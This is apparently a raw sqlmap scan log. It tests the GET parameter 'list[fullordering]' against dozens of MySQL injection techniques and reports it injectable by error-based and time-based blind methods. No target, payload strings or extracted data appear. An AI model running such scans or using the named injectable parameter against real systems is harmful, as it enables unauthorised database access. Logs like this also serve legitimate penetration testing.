 [16:57:38] [INFO] GET parameter 'list[fullordering]' is 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)' injectable 
[16:57:38] [INFO] testing 'MySQL inline queries'
[16:57:39] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[16:57:40] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[16:57:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[16:57:43] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[16:57:44] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[16:57:45] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[16:57:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[16:57:47] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[16:57:48] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP)'
[16:57:49] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP)'
[16:57:50] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP - comment)'
[16:57:51] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP - comment)'
[16:57:52] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP - comment)'
[16:57:53] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP - comment)'
[16:57:54] [INFO] testing 'MySQL < 5.0.12 AND time-based blind (BENCHMARK)'
[16:57:55] [INFO] testing 'MySQL > 5.0.12 AND time-based blind (heavy query)'
[16:57:56] [INFO] testing 'MySQL < 5.0.12 OR time-based blind (BENCHMARK)'
[16:57:57] [INFO] testing 'MySQL > 5.0.12 OR time-based blind (heavy query)'
[16:57:58] [INFO] testing 'MySQL < 5.0.12 AND time-based blind (BENCHMARK - comment)'
[16:57:59] [INFO] testing 'MySQL > 5.0.12 AND time-based blind (heavy query - comment)'
[16:58:00] [INFO] testing 'MySQL < 5.0.12 OR time-based blind (BENCHMARK - comment)'
[16:58:01] [INFO] testing 'MySQL > 5.0.12 OR time-based blind (heavy query - comment)'
[16:58:03] [INFO] testing 'MySQL >= 5.0.12 RLIKE time-based blind'
[16:58:04] [INFO] testing 'MySQL >= 5.0.12 RLIKE time-based blind (comment)'
[16:58:05] [INFO] testing 'MySQL >= 5.0.12 RLIKE time-based blind (query SLEEP)'
[16:58:06] [INFO] testing 'MySQL >= 5.0.12 RLIKE time-based blind (query SLEEP - comment)'
[16:58:07] [INFO] testing 'MySQL AND time-based blind (ELT)'
[16:58:08] [INFO] testing 'MySQL OR time-based blind (ELT)'
[16:58:09] [INFO] testing 'MySQL AND time-based blind (ELT - comment)'
[16:58:10] [INFO] testing 'MySQL OR time-based blind (ELT - comment)'
[16:58:11] [INFO] testing 'MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)'
[16:58:12] [INFO] testing 'MySQL >= 5.1 time-based blind (heavy query - comment) - PROCEDURE ANALYSE (EXTRACTVALUE)'
[16:58:13] [INFO] testing 'MySQL >= 5.0.12 time-based blind - Parameter replace'
[16:58:14] [INFO] testing 'MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)'
[16:58:27] [INFO] GET parameter 'list[fullordering]' appears to be 'MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)' injectable 
[16:58:27] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[16:58:27] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[16:58:49] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[16:59:11] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[16:59:31] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[16:59:50] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[16:59:53] [INFO] testing 'Generic UNION query (random number) - 41 to 60 columns'
[16:59:58] [INFO] testing 'Generic UNION query (NULL) - 61 to 80 columns'
[17:00:04] [INFO] testing 'Generic UNION query (random number) - 61 to 80 columns'
[17:00:25] [INFO] testing 'Generic UNION query (NULL) - 81 to 100 columns'
[17:00:46] [INFO] testing 'Generic UNION query (random number) - 81 to 100 columns'
[17:01:06] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[17:01:29] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[17:01:50] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[17:02:12] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[17:02:32] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[17:02:53] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[17:03:14] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[17:03:34] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[17:03:55] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[17:04:15] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'